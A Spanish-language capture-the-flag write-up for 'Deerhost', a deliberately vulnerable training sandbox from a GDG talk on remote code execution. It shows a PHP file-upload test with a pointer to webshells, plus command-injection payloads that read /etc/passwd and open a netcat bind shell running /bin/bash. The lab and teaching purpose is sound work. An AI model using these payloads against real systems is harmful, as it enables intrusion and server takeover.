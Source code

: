 ```yaml
---
title: "[Write-up] Deerhost"
subtitle: "Paso a paso para resolver esta maquina"
date: 2020-08-02T19:48:20-03:00
lastmod: 2020-08-02T19:48:20-03:00
draft: false
author: "memoryempty"
authorLink: ""
description: ""

tags: ["write-up"]
categories: []

hiddenFromHomePage: false
hiddenFromSearch: false

featuredImage: "images/deerhost/deerhost_main_photo.jpg"
featuredImagePreview: ""

toc:
  enable: true
math:
  enable: false
lightgallery: false
license: ""
---
```



# Ficha técnica

> **Nombre**: Deerhost

> **Creadores**: Matías Ramirez & MemoryEmpty

> **Nivel**: Muy fácil

## Introducción a Deerhost

Deerhost es una sandbox que desarrollamos para que los asistentes al encuentro de GDG Training puedan poner en práctica las técnicas de RCE expuestas en el encuentro **"RCE hasta la cocina en GDG"**. Este *paso a paso* tiene como fín servir de material de  consulta para repasar lo aprendido. Les recomiendo tener a mano las diapositivas de la exposición desarrolladas por Matías, que es un material de consulta muy claro en el impacto que estas vulnerabilidades pueden llegar a alcanzar en entornos reales.

## Enumeración

Nuestra primera tarea a la hora de auditar -o de hackear- siempre es reconocer los posibles vectores de ataque. En este caso, con solamente navegar por el sitio podrán encontrar dos vulnerabilidades sencillas de explotación. 

## 1. Tomando el control con nuestros CV's

Apenas abrimos deerhost veremos un par de links en el encabezado. Si nos dirigimos a la página de **"work with us" (/cv.php)** nos encontramos con un formulario para subir nuestro CV a la empresa.

![foto_exploit_1](images/deerhost/deerhost_exploit_1_a.jpg)

 Naturalmente, nos preguntamos, ¿Qué clase de cuidado han tenido los desarrolladores del sitio para prevenir que en lugar de un CV, alguien suba algún maliciosos? Para averiguarlo, podemos preparar una simple prueba:

```
	<?php phpinfo(); ?>
```

> nota: phpinfo() es una función de php para consultar la version y otros datos del servicio instalado. Cuando al subir un archivo con esta función obtenemos el la ejecución del mismo, es probable que podamos ejecutar otros comando.

Al subirla vemos que la respuesta del sitio delata que el archivo ha sido guardado. Si logramos dar con su paradero,  **en /uploads/<nombre_del_archivo.php>** podemos ver que nuestro prueba funciona perfectamente.

![foto_exploit_2](images/deerhost/deerhost_exploit_1_b.jpg)

Ahora podemos mejorar nuestro payload: En lugar de ejecutar dicho comando, podemos ejecutar una webshell corra en php. Pueden hacer la prueba con cualquiera de [esta lista](https://github.com/xl7dev/WebShell/tree/master/Php).


## 2. Busqueda de dominios, un tanto especial

En la pagina principal podemos consultar por un dominio y ver si esta disponible para contratarlo. No hay nada raro en ello, sin embargo, al hacer una simple consulta - como puede ser ingresando **google.com** - el output del sitio nos resulta algo peculiar.

![foto_exploit_2](images/deerhost/deerhost_exploit_2_a.jpg)

![foto_exploit_2](images/deerhost/deerhost_exploit_2_b.jpg)
> ¿Qué es nslookup? Es un comando de linux para obtener informacion de un dominio (concretamente, del DNS). su uso es sencillo, basta con poner 'nslookup google.com' para obtener los datos.


Hay buenas razonas para pensar que este buscador esta ejecutando nslookup con los parámetros que le hemos indicado. ¿Será acaso posible correr más de un comando? ¡Vamos a averiguarlo!, para ello, imaginamos que, como en cualquier linea de terminal en linux, es posible ejecutar más de un solo comando. Para confirmar nuestra teoría podremos escribir un payload parecido al siguiente: (*¿Quizás a esta altura deberíamos ofrecernos como diseñadores creativos de naming?*)

`asdqweasdqe.com; cat /etc/passwd`

Lo que estamos haciendo se parece a decirle al sitio *"hey! quiero revisar este dominio (cualquiera), y luego ejecuta el comando `cat` al archivo de `/etc/passwd`"*. Como vemos, nuestra prueba funciona y ya sabemos también algunas cosas más del servidor.

![foto_exploit_2](images/deerhost/deerhost_exploit_2_c.jpg)

Una vez que hayamos descubierta una vulnerabilidad como esta, ya podemos correr todo tipo de comandos. Por ejemplo, como en el caso del payload anterior, podemos intentar conseguir una shell. En este caso lo que haremos será correr netcat del lado del servidor, esperando una conexión remota:

`bhf.com.ar; nc -lp 4444 -e /bin/bash`

los flags de netcat usados aquí son:

	--listen 	para dejar en modo escucha el puerto.
	--port 4444	indica el puerto por el cual nos conectaremos.
	--execute	indica al servidor que corra un programa, en este caso
				/bin/bash, una vez que se establezca la conexión.

Cuando hacemos nuestra consulta, vemos que el la pagina queda indefinidamente en pausa, ese es un signo bastante bueno cuando ejecutamos payloads que dejan servicios corriendo del lado del servidor.

¡Ahora debemos conectarnos! para ello, usamos netcat nuevamente, desde nuestra propia terminal:

`nc gdg-ctf.hostear.com.ar -v 4444`

Podemos usar la ip o el dominio. Por otro lado hemos activado el flag `--verbose` para obtener más información. Con ello, ya tendremos acceso al servidor.
	
## Notas finales

Aunque deerhost presente a simple vista un escenario muy sencillo y puede vulnerarse con facilidad, su riqueza esta en ser más realista de lo que uno se imagina. Para quienes recién comienzan a tomar conciencia de la importancia de la ciberseguridad puede ser muy útil hacer las pruebas localmente, y por supuesto ver que más pueden encontrar. El repositorio de github se encuentra abierto a todos aquellos que quieran probarlo [gdg-rce-ctf](https://github.com/duality084/gdg-rce-ctf)

**Happy Hacking!**